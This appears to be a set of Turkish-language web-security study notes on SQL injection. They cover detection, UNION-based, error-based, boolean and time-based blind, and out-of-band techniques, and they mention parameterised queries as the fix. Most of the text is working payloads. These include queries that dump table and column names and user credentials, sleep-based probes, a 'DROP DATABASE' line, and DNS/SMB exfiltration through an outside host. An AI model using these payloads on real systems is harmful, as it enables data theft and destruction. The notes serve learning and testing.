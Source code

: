 <h1 align="center">SQL Injection</h1>

# SQL Injection Nedir?
* Saldırganın, web yazılımını kullanarak veritabanı sorgusu çalıştırmabilmesidir.

### SQL Injection Nasıl Tespit Edilir?

* SQL INJECTION TIME BASED PAYLOADLAR ILE TESPIT EDILIR !!!! 
* Her db için ayrı sleep metodları vardır. 
* Data insert ederken bile sleep methodunu çalıştırabilirsin. 
* SQL Injection bulurken kendine bir referans noktası seçersin ve denediğin yöntemlerle bu ilk noktaya dönmeye çalışırsın. Başarırsan zaafiyeti kanıtlamışsın demektir.
* SQLi tespit etmek için URL kısmında şunları dene: 
```python
..../productid=4'
	invalid falan verirse
..../productid=4''
	böylesini dene
..../productid=5-1
	dene
```

## Notlar

- SQL injectionda gönderdiğin data, arka tarafta SQL sorgusu olarak gidiyor. Data, data olarak kalırsa sorun çözülmüş olur.

- ORM uygulama denir buna. Prepare statement deniyor buna. İnputları parametrelendirmek yani.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/223883df-681b-4e37-9026-2c1e34fe39b3)

```SQL
database() --> mevcut database ismini döndürür

SELECT 2+1;
3

SELECT '2-1';
2-1

SELECT '2'-'1';     --> integer casting yapıyor
1                 

SELECT '2'+'a';    --> 2yi integer cast edebiliyor ama 'a'yı cast edemiyor.
2                 

SELECT 'b'+'a';
0

SELECT '2' '1'; veya SELECT concat('2','1');  --> boşluğu string concatenation yapıyor.
21        

SELECT SELECT '2' '1' 'a';
21a

SELECT SELECT '2' '1' 'a' - 1;   -->  önce çıkartmayı yapıp sonra string birleştirme yapıyor.
20a                 

SELECT 2^1;    -->     XOR operantı bu  2^2 = 0
3

SELECT ~1;    -->      max integer input
18446744073709551614

DROP DATABASE;
```

- Database tablolarına veri eklerken trim(boşlukları silme) işlemi yapmazken, veriyi çekerken trim yapıyor.

- SQL Injection kod örnekleri:
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/7325c682-bc1c-40be-821f-fbf499c0b7cf)
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/8ef456c1-9521-4dd8-ad54-9849f2212e4b)

## UNION SQLi

.../id=2-1
- Peşpeşe SELECT sorgusu çalıştırmak için UNION kullan ama UNION kullanabilmen için 2. SELECT’deki kolon sayısı aynı olması gerekiyor. 
- UNION SELECT 1,2,3,4,5,6,7,8,9,10,11… böyle gidersin.
- Eğer ekranda 7 2 9 gibi değerler görüyorsan bu kodda 2. indisteki kodu uygulama, ekrana yaz demektir bu. Arama çubuğuna gidip 7 yerine version() fonksiyonunu çalıştırdığında veri çekebilir hale gelebilirsin.
- İlk SELECT sorgusunun cevabını görmemek için -99999999 yazabilirsin id UNION’dan önce.
- Sonra versiyon yerine database() yazarsan database ismini getirir.

```SQL
' UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()  
	  bu şekilde tablo isimlerini çektik

' UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.column WHERE table_name = ‘users’  
	  users’ın kolonlarını çekme

' UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users  
	  uname yerine kolon isimlerinde ne çıkarsa artık
```
* bu kısımda fonksiyon kullanmak da verimli olabilir || 6,concat(uname,’:MDISEC:’,pass),8,9,..  || veya regex yazıp çözebilirsin.

## Error Based SQLi

- SQL sorgusunun database’de oluşturduğu syntax’ın geri dönmesi sonucu, o syntax hatası içine çıkartmak istediğni veriyi yerleştirmeyle oluşuyor.
- Eğer ki verdirttiğin hata tee database’e kadar gidiyorsa sen bu yardımcı metodu kullanarak data getirebilirsin. XML şeklinde veriyorsun
- Syntax hatası olmadan bu tür olmaz.
```SQL
rand() —> 0-1 arası random sayı üretir.

SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## AND/OR SQLi
```SQL
SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## WHERE id IN (1)
```SQL
www.x.com/?id=1) UNION SELECT #
```

## Tırnaklama
```SQL
SELECT * FROM users WHERE id = '1'''; 
	olduğunda tırnak, tırnağı escape edeceği için sana yine cevabı çevirmiş olur. 3 tane tırnak olsa hata verir.
```

## Boolean-Based / Blind SQLi
- Örnek python kodu:
```python
if result().size > 0:
	print("haber var")
else:
	print("haber yok")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=2  2 
	yaparak referans noktanın değiştiğini gözlemle.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING('MEHMET',1,1)='M'  
	Substring fonksiyonu string ifadeyi indexten indexe kesecek işlemi yapar.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1)='a'
	ilk tablo ismini stringi bölerek 'a' eşitlemeye çalışır. 'u' yu bulana kadar alfabetik değiştir. 2 tane for döngüsüyle bütün harfleri bulursun.
Bu işlemi hızlandırmak için:
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1))> 80
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 1))> 80
```
## Time Based SQLi
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,1,0)  condition doğruysa 1 dön değilse 0 dön.
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,sleep(5),0)      eğer cevap dönmesi uzun sürerse açığı yakaladın demektir.
	Sonrasında SUBSTRING ve ASCII'den yürü.
```
## Out-of-Band SQLi
- Örnek python kodu:
```python
id = request.get('id')

rabbitmq.pushTask('report_generate',id)
	Senden gelen integer değerleri SQL sorgusu içine yolluyor yani içeride başka işler dönüyor. sleep falan yaramaz aga.
print("selam")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT 'ali' INTO OUTFILE '/tmp/test.txt'; komutu diske bir şeyler yazmana yarar. Bunu kullanarak bir şeyler elde edebilirsin.
SELECT 'ali' INTO OUTFILE '\\\hacker.mdisec.com/a'; windows un özelliğidir bu samba protoklü ile verilen domainin 445.portuna gitmeye çalışır.
	Bunun subdomainine subSELECT kurarsan rahatça table_name falan elde edersin.
SELECT * INTO OUTFILE '\\\'+(SELECT table_name FROM information_schema.tables WHERE table_schema=database())+.mdisec.com/a'
	DB'in bağlı olduğu DNS serveri üstünden senin name serverına istek atar ve dataları orada görürsün.
```
